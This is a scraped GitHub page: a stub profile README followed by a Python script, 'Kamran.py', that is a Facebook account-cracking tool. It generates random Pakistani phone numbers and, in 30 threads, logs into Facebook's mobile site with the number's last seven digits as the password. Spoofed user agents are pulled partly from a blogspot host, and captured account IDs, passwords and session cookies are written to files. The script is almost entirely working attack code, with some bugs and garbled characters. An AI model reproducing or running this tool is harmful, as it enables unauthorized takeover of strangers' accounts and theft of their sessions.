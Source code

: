 - 👋 Hi, I’m @bk980
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
bk980/bk980 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

MrKamran
/
open-source
Public
Code
Issues
Pull requests
1
Actions
Projects
Security
Insights
open-source/Kamran.py
@Mr Kamran
Mr Kamran Add files via upload
 1 contributor
265 lines (252 sloc)  10.1 KB
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import marshal
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python Kamran.py')
from bs4 import BeautifulSoup
ugen = []
A = '\x1b[1;97m' 
B = '\x1b[1;96m' 
C = '\x1b[1;91m' 
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;37m'    
E = '\x1b[1;93m' 
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;37m'
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
KB = '{ KB }'
for xd in range(10000):
    a='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
try:
    os.system('curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.html')
except:
    pass
sock=open('ua.html','r').read().splitlines()
def uaku():
    try:
        ua=open('bbnew.txt','r').read().splitlines()
        for ub in ua:
            ugen.append(ub)
    except:
        a=requests.get('https://bacho1001.blogspot.com/2022/07/ua.html').text
        ua=open('.user-agents.txt','w')
        aa=re.findall('line">(.*?)<',str(a))
        for un in aa:
            ua.write(un+'\n')
        ua=open('.user-agents.txt','r').read().splitlines()
loop = 0
cps = []
oks = []
twf = []

def clear():
    os.system('clear')
    print(logo)
logo =f"""____________________
AUTHOR    : MR Kamran Bhatti
FACEBOOK : Kamran Bhatti
VERSION    : 1.1
                                   [THE DEAD USER]
____________________"""


#####     ####




def linex():
    print(f'==========================================================')
def checks(oks,cps,twf):
    if not len(oks) != 0:
        pass
    if len(cps) != 0:
        print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mKB-OK.txt' % (
            H, P, str(len(oks))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mKB-CP.txt' %
              (H, P, str(len(cps))))
        print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mKB-2F.txt' %
              (H, P, str(len(twf))))
        input("\x1b[1;97mPRESE ENTER TO BACK xyz  ")
        xyz()
loop = 0
cps = []
oks = []
twf = []
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS ðŸŽ®%s  '%(ORANGE))
    else:
        print(f'\r {GREEN}[âˆš] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS ðŸŽ®%s'%(ORANGE))
    else:
        print(f'\r ðŸŽ®  %{RED}sYOUR EXPIRED APKS DETAILS :'%(RED))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N))
            print(f"{GREEN}[âˆš]---------------------------------------------------[âˆš]")
    #____________#
def xyz():
    #os.system("play-audio WELCOME_TO_kb_BOOT_818.mp3")
    os.getuid
    os.system("clear");print(logo)
    print('           \x1b[97m[\033[37;41m  M A I N   M E N U   \033[0;m] ')
    print(f"")
    print(f"[01] {WHITE}START RANDOM CLONING")
    print(f"[00] {WHITE}EXIT PROGRAM ")
    print(f"")
    print(f"\033[1;91m========================================================")
    Kamran= input("[âˆš] CHOOSE : ")
    if Kamran in ["1","01"]:
        Random()
    elif Kamarn in ["0","00"]:
       exit()
    else:
        print('\033[1;31mINCORECT OPTION!\033[1;31m')
        xyz()

#_____________#
 
#_____________________#

def Random():
    user=[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :ðŸ‘‡\033[0;m]")
    print(f"")
    print(' 0306 ,0300 ,0315 ,0333')
    print(f" 0341 ,0342 ,0345 ,0349")
    print(f" 0321 ,0316 ,0308 ,0309")
    print(f"")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 1000, 2000, 5000, 10000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:    
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {RED}"+tl)
        print(f" {WHITE}COUNTRY YOU CHOOSE    : PAKISTAN ")
        print(f" {WHITE}NUMBER YOU PUT        : {RED}"+code)
        print(f" {WHITE}PROCESS HAS BEEN STARTED")
        print(f" {WHITE}BE PATIENT.......")
        print(f" {WHITE}TO STOP PROCESS Ctrl + Z ")
        print(f'===========================================================')
        for love in user:
            uid = code+love
            pwx = [love]
            yaari.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global oks
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'m.facebook.com',
            'method': 'POST',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"',
            'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent':pro}
            lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\033[1;32m[âˆš]---------------------[JADU-OK]--------------------[âˆš]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\nCOOKIE   : '+coki+'\n[âˆš]---------------------------------------------------[âˆš]')
                cek_apk(session,coki)
                open('/sdcard/Kamran-OK.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[24:39]
                Red = '\033[1;31m'
                print(f'\r{Red}[Ã—]--------------------[JADU-CP]---------------------[Ã—]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\n[Ã—]---------------------------------------------------[Ã—]\033[1;97m')
                open('/sdcard/Kamran-CP.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(cid)
                break
            elif '/x/checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[7:22]
                Red = '\033[1;31m'
                print(f'\r{YELLOW}[TEMP-LOCK] '+cid+' | '+ps+'\033[1;97m')
                open('/sdcard/Kamran-2F.txt', 'a').write(cid+' | '+ps+'\n')
                twf.append(cid)
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[KAMRAN] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))), 
        sys.stdout.flush()
        checks(oks,cps,twf)
    except:
        pass

        
 
if __name__ == '__main__':
    xyz()
